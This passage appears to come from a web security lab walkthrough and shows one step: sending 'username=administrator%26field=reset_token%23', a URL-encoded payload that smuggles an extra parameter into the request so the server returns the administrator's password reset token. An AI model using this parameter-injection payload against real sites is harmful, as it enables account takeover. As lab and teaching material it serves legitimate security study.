 ![2025-07-08_12-10.png](LabImg/2025-07-08_12-10.png)

---

### 🔓 Extract Reset Token

Try:

```
username=administrator%26field=reset_token%23

```

📨 Send the request → ✅ A **reset token** is returned

📝 **Copy the token**

![2025-07-08_12-25.png](LabImg/2025-07-08_12-25.png)

---